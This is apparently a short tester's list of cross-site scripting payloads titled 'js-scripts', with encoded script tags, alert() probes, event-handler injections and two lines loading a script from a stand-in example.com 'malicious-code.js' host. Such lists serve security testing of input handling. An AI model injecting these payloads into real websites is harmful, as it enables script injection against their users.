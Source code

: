 # js-scripts

```text
%22%2F%3E%3Cscript%3Ealert%2811%29%3C%2Fscript%3E
```

```text
'"><script>alert(12)</script>
```

```text
<script>alert('To jest alert!');</script>
```

```text
<body onload=alert(13)>Note</body>
```

```text
"'><img onerror=alert(14) src />
```

```text
%3cscript src=http://www.example.com/malicious-code.js%3e%3c/script%3e
```

```text
\x3cscript src=http://www.example.com/malicious-code.js\x3e\x3c/script\x3e
```

```text
"}}];</script><B>O KURłA!</B></body></html
```

```text
<https://jira.domain.com/browse/GZA-11620>
```

```text
Z <https://jira.domain.com/browse/GZA-11620>
```

```text
<a href="https://www.w3schools.com/html/html_links.asp">LINK</a>
```

```text
<a href="#" onmouseover="alert('To jest alert!')">LINK</a>
```

